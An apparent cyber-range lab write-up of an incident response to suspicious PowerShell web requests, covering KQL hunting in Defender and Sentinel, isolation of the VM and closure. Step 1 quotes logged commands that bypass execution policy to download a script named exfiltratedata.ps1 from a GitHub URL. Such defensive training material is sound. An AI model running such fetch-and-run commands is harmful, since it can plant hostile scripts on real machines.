 <img width="600" src="https://github.com/user-attachments/assets/3139ed02-bf2c-4d30-973e-12dc1063fcba" alt="Incident Response Lifecycle"/>

# Incident Response Report: PowerShell Suspicious Web Request

## Platforms and Languages Leveraged
- Windows 10 Virtual Machines (Microsoft Azure)
- EDR Platform: Microsoft Defender for Endpoint
- Kusto Query Language (KQL)
- Microsoft Sentinel

##  Scenario

Management has raised concerns about potential attempts to download malicious tools or payloads directly within our network. Logs for one of the flagged virtual machines display incidents where PowerShell launched. Microsoft Defender for Endpoint also flagged repeated download attempts from unfamiliar scripts, which also look suspicious. At this stage, it is unclear whether any of the scripts have been successfully downloaded or executed, prompting immediate investigation. The goal is to detect any use of the "Invoke-WebRequest" command - a method that can potentially download or execute external scripts while bypassing detection mechanisms - and to analyze any downloaded scripts or files to mitigate risks of unauthorized access. 

### High-Level Incident Response Plan

- **Check `DeviceProcessEvents`** for any PowerShell executions involving the `Invoke-WebRequest` command and investigate any suspicious download activity.
- **Check `DeviceProcessEvents`** for any successful execution of downloaded scripts to assess potential impact.
- **If applicable, `isolate affected devices`, `block access to malicious domains`, `run an antimalware scan`, and `implement restrictions on PowerShell usage`** to prevent unauthorized script execution.

---

## Steps Taken

### 1. Searched the `DeviceProcessEvents` Table

Searched for instances within the last 24 hours where PowerShell was downloaded using the `Invoke-WebRequest` command for Device: "windows-target-1". Identified 24 such incidents, where the following commands were executed: 

a)InitiatingProcessCommandLine
            
        "cmd.exe" /c powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1


b)ProcessCommandLine
            
        powershell.exe  -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1


The suspicious web request was triggered on 1 device: "windows-target-1" by 1 user, but downloaded 4 different scripts with 4 different commands


<ul>
<li>eicar.ps1</li>

<li>portscan.ps1</li>

<li>pwncrypt.ps1</li>

<li>exfiltratedata.ps1</li>
</ul>


**Query used to locate events:**

![image](https://github.com/user-attachments/assets/89c2a2cc-e446-42a5-bc7c-446429ad29ed)


<p>
<img src="https://github.com/user-attachments/assets/f70f72a2-79eb-450a-bb2c-4efcc849507d"  alt="KQL Query Results"/> &emsp; &emsp;
<img src="https://github.com/user-attachments/assets/74e652dd-2033-44ea-aacb-82e787cc2cf6"   alt="KQL Query Results"/>
</p>


---

### 2. Searched the `DeviceProcessEvents` Table a Second Time

Searched for instances where the scripts: `eicar.ps1`, `portscan.ps1`, `pwncrypt.ps1`, `exfiltratedata.ps1` were successfully executed. It was later discovered that all 4 scripts were indeed executed.

**Query used to locate events:**

![image](https://github.com/user-attachments/assets/9347c43d-f38d-4873-8e55-e6c4062ec09a)

![image](https://github.com/user-attachments/assets/1eb274cc-2d4c-43a6-a4ca-417e7fb7ca98)
![image](https://github.com/user-attachments/assets/724222a9-6361-4704-aa8f-304ee8e89d6a)

Summarized by Count: 

![image](https://github.com/user-attachments/assets/8919ead5-4916-4dbc-940f-504f3ceb39bc)


---

### 3. Isolated the affected device in Microsoft Defender

Device: `windows-target-1` was isolated in Microsoft Defender for Endpoint, and an antimalware scan was run to ensure no malware was present.

**Ex. 1: Device: windows-target-1:**

![image](https://github.com/user-attachments/assets/9c4ee8a5-f2a5-4e02-9537-57f855ba6b39)


---

### 4. Enforced Cybersecurity Awareness Training

Enrolled affected user in additional cybersecurity awareness training and upgraded organization-wide security awareness program (KnowBe4) to a more robust package with increased training frequency.

Implemented a policy change that limited/restricted PowerShell usage to authorized personnel only.

Enhanced endpoint monitoring for script execution activities.

---

### 5. Restored the impacted virtual machine

Reviewed and completed write-up for incident resolution. Finalized reporting and closed out the incident in Microsoft Sentinel as a true positive.


![image](https://github.com/user-attachments/assets/c50d6637-4749-4628-ae4e-0a2930a77747)










